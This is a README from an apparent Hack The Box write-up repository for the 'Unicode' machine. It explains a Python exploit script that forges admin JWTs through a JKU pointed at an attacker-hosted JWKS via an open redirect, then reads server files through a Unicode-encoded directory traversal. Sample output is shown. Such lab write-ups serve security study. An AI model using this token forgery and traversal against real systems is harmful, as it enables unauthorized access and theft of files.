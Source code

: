 # Hack The Box. Machines. Unicode

Machine write-up: https://7rocky.github.io/en/htb/unicode

### `dpt-jwks.py`

This script is mainly used to read files from the server exploiting a Directory Path Traversal vulnerability.

This machine uses JWT tokens with JWKS and JKU that can be forged using an Open Redirect vulnerability to our controlled JWKS (`jwks.json`) and gain access as `admin`. Hence, we need to generate a pair of RSA public and private keys to craft the JWKS:

```python
# openssl genrsa -out priv.key 1024
privkey = open('priv.key').read()

# openssl rsa -in priv.key -pubout > pub.key
pubkey = RSA.import_key(open('pub.key').read())


def int_to_b64(x: str | int) -> str:
    return base64.urlsafe_b64encode(long_to_bytes(int(x))).decode()


def generate_jwks():
    json.dump({'keys': [{
        'kty': 'RSA',
        'kid': 'hackthebox',
        'use': 'sig',
        'alg': 'RS256',
        'e': int_to_b64(pubkey.e),
        'n': int_to_b64(pubkey.n)
    }]}, open('jwks.json', 'w'), indent=2)
```

The required `openssl` commands are commented in the code. To fool the server, we must enter a valid JKU in the JWT token's header. Although the server applies some URL validation, we are able to bypass it using an Open Redirect and Directory Traversal vulnerabilities:

```python
    ip = sys.argv[1]
    jku = f'http://hackmedia.htb/static/../redirect/?url={ip}/jwks.json'
    token = jwt.encode({'user': 'admin'}, privkey,
                       algorithm='RS256',
                       headers={'jku': jku})
    print('[+] JWT token:', token)
```

The token is signed with the private key we generated. And the JWKS contains the public key, so that the server can take the `jwks.json` file and verify the token signature. Hence, we need a web server that hosts the `jwks.json` file. This is handles like this:

```python
class MyHTTPRequestHandler(SimpleHTTPRequestHandler):
    def log_message(self, *_):
        # Avoid showing logs
        pass


def start_http_server():
    threading.Thread(target=httpd.serve_forever).start()


def do_exit(*_):
    httpd.server_close()
    httpd.shutdown()
    exit()


httpd = HTTPServer(('', 80), MyHTTPRequestHandler)
signal.signal(signal.SIGINT, do_exit)
```

We override the default implementation of `SimpleHTTPRequestHandler` in order not to show the logging output. Moreover, the server is started in the background using `threading` and killed when using `^C` (`SIGINT`).

Finally, we have the Directory Path Traversal exploitation:

```python
    base_url = 'http://10.10.11.126/display/'
    vulnerable_url = f'{base_url}?page=%E2%80%A5/%E2%80%A5/%E2%80%A5/%E2%80%A5'
    print('[+] Vulnerable page:', f'{vulnerable_url}/etc/passwd\n')

    while True:
        file = input('dpt> ')

        if file == 'exit':
            do_exit()

        r = requests.get(vulnerable_url + file,
                         headers={'Cookie': f'auth={token}', 'Host': 'hackmedia.htb'})
        print()
        print(r.text)
```

This time we need Unicode characters to bypass some filters. Fortunately, Flasks parses `‥/‥/‥/‥` as `../../../..` (notice the subtle differences in the dots), so the validation does not block our attack. In URL encoding, `‥/` equals `%E2%80%A5/`.

The script will show a `dpt>` prompt to enter a file to read given the absolute path.

Here is an example:

```console
$ python3 dpt-jwks.py 10.10.17.44
[+] JWT token: eyJ0eXAiOiJKV1QiLCJhbGciOiJSUzI1NiIsImprdSI6Imh0dHA6Ly9oYWNrbWVkaWEuaHRiL3N0YXRpYy8uLi9yZWRpcmVjdC8_dXJsPTEwLjEwLjE3LjQ0L2p3a3MuanNvbiJ9.eyJ1c2VyIjoiYWRtaW4ifQ.sHepTEwtjfA7-VuBGnAQXn5_aDyyfri8yC6HbH8Mw8cPhQme7slaxbeWtLlbSzNyKLB3EnUJEsMF3dh6EZuTslWB4D8N2XZ932QJju6C84d_hvGJFg-PZ33xOiT4OxmTwVH6pfgJyk81LEFLyuzknQnUg_AMbNxvCUvwgqoduss
[+] Vulnerable page: http://10.10.11.126/display/?page=%E2%80%A5/%E2%80%A5/%E2%80%A5/%E2%80%A5/etc/passwd

dpt> /etc/hosts

127.0.0.1 localhost
127.0.1.1 code
127.0.0.1 hackmedia.htb
# The following lines are desirable for IPv6 capable hosts
::1     ip6-localhost ip6-loopback
fe00::0 ip6-localnet
ff00::0 ip6-mcastprefix
ff02::1 ip6-allnodes
ff02::2 ip6-allrouters

dpt> exit
```
